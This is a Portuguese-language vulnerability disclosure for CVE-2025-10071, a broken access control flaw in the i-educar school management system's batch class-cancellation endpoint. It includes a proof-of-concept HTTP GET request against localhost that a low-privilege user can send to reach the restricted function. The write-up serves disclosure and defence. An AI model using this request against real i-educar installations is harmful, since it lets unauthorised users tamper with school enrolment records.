


## CVE-2025-10071: Controle de Acesso Quebrado no Endpoint `/cancelar-enturmacao-em-lote/[ID]`

> ***CVE Publication: https://www.cve.org/CVERecord?id=CVE-2025-10071***

## Resumo

<p style="text-align: justify;">Uma vulnerabilidade de Controle de Acesso Quebrado foi identificada no endpoint <code>/cancelar-enturmacao-em-lote/[ID]</code> do aplicativo i-educar. Essa vulnerabilidade permite que usuários sem as devidas permissões acessem funcionalidades restritas, ignorando as verificações de autorização.</p>

## Detalhes

<p style="text-align: justify;"><b>Endpoint Vulnerável:</b> <code>GET /cancelar-enturmacao-em-lote/[ID]</code></br><b>Autenticação:</b> Obrigatória</br></br>O aplicativo não consegue validar corretamente as permissões do usuário antes de conceder acesso a este endpoint. Como resultado, até mesmo usuários com privilégios baixos podem acessar com sucesso a funcionalidade destinada apenas a .</p>

## PoC

<p style="text-align: justify;"><ul><li>Autenticar como um usuário sem privilégios.</li></ul></p>




<p style="text-align: justify;"><ul><li>Enviar a seguinte solicitação:</li></ul></p>

```html
GET /cancelar-enturmacao-em-lote/15 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br, zstd
Connection: keep-alive
Referer: http://localhost/enturmacao-em-lote/15
Cookie: i_educar_session=ikrAPvWjSx0V5drm82zlgu1kBByJdsCx1gJkiwsu
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
```

<p style="text-align: justify;"><ul><li>Podemos observar que temos acesso à página e à função para atribuir alunos em lote às turmas. E este usuário não deveria fazer isso.</li></ul></p>



## Impacto

<p style="text-align: justify;">Vulnerabilidades de Controle de Acesso Quebrado podem ter consequências graves, incluindo:
<ul>
<li>Acesso não autorizado a funcionalidades restritas;</li>
<li>Escalonamento de privilégios para usuários de baixo nível;</li>
<li>Exposição de dados sensíveis e potencial comprometimento do sistema;</li>
<li>Perda de confidencialidade e integridade de registros educacionais;</li>
<li>Danos à reputação da organização.</li>
</ul>
</p>

## Referência

***[https://github.com/marcelomulder/CVE/blob/main/i-educar/CVE-2025-10071.md](https://github.com/marcelomulder/CVE/blob/main/i-educar/CVE-2025-10071.md)***

## Finder

[](http://www.linkedin.com/in/marceloqueirozjr) [Marcelo Queiroz](http://www.linkedin.com/in/marceloqueirozjr)

> ***Por: [CVE-Hunters](https://github.com/CVE-Hunters/cve-hunters)***